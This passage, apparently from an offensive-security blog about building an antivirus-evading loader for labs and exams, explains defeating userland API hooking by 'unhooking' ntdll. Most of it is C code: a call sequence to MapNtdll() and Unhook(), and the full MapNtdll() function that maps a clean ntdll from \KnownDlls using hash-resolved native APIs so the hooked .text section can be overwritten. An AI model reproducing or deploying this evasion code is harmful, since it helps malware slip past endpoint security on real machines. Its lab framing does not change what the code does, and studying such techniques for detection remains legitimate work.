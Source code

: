 On paper, that sounds like a very powerful detection method, but it's actually easily "evadable". One technique consists of unhooking the hook.

From what I've observed, Microsoft Defender doesn't actually make use of userland API hooking. But I still decided to include unhooking anyway, in case you face some other AV product (which happens in some labs/exams).

```c
/*
	redacted some previous code for visibility
*/

printf("[+] Un-hooking Ntdll \n");
	LPVOID nt = MapNtdll();
	if (!nt) 
		return -1;

	if (!Unhook(nt)) 
		return -1;
```

There are two functions responsible for the whole unhooking process: `MapNtdll()` and `Unhook()` both located in `unhook.c`. 

`MapNtdll()` maps a clean copy of NTDLL from "disk" to memory. `Unhook()` uses that clean mapping to *overwrite* the hooked `.text` section of the currently loaded `ntdll`.

Let's take a look what `MapNtdll()` does:

```c
LPVOID MapNtdll() {

    UNICODE_STRING DestinationString;
    const wchar_t SourceString[] = { '\\','K','n','o','w','n','D','l','l','s','\\','n','t','d','l','l','.','d','l','l', 0 };

    RtlInitUnicodeString(&DestinationString, SourceString);

    OBJECT_ATTRIBUTES   ObAt;
    InitializeObjectAttributes(&ObAt, &DestinationString, OBJ_CASE_INSENSITIVE, NULL, NULL);

    HANDLE hSection;
    NTSTATUS status1 = NtOpenSection(&hSection, SECTION_MAP_READ | SECTION_MAP_EXECUTE, &ObAt);
    if (!NT_SUCCESS(status1)) {
        printf("[!] Failed in NtOpenSection (%u)\n", GetLastError());
        return NULL;
    }

    PVOID pntdll = NULL;
    ULONG_PTR ViewSize = 0;

    MyNtMapViewOfSection pNtMapViewOfSection = (MyNtMapViewOfSection)(GetProcAddressH(GetModuleHandleH(#-NTDLL_VALUE-#), #-NTMVOS_VALUE-#));
    NTSTATUS status2 = pNtMapViewOfSection(hSection, NtCurrentProcess(), &pntdll, 0, 0, NULL, &ViewSize, 1, 0, PAGE_READONLY);
    if (!NT_SUCCESS(status2)) {
        printf("[!] Failed in NtMapViewOfSection (%u)\n", GetLastError());
        getchar();
        return NULL;
    }
    return pntdll;
}
```

